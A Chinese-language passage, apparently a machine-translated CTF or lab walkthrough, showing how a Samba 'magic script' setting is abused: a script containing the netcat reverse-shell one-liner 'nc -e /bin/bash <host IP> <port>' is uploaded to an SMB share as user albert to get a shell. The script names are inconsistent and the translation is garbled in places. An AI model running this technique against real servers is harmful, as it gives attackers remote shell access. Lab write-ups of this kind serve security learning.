 中小企业网

有一个条目叫做**magic script = smsubscript . sh**。

我们可以创建一个名为**smubscript**的 shell 脚本，这样我们就可以反向连接到机器。

只需在 shell 脚本中添加 **nc -e /bin/bash <主机 IP > <主机端口>** ，执行时产生 netcat 反向 shell。

![](img/eeccb2cc0450e2b455a0e63d0df7acad.png)

smsubscript . sh

授予所有用户对脚本的读、写、可执行权限。

然后设置一个 netcat 监听器。

![](img/976eef5da9a6eedf2accc229575f8570.png)

netcat 监听器

神奇的脚本应该在 **smbshare 中执行。**那么，让我们以 albert 的身份登录 smbshare，并使用 **put** 命令上传我们的**smsubscript . sh**文件。

![](img/f2a29043f1b01e500adc6c72f8411688.png)

上传 smbscript.sh

看一下 netcat 监听器。我们得到了一个反壳。

![](img/701f4693f035d6c5f161406f9c7e27fa.png)
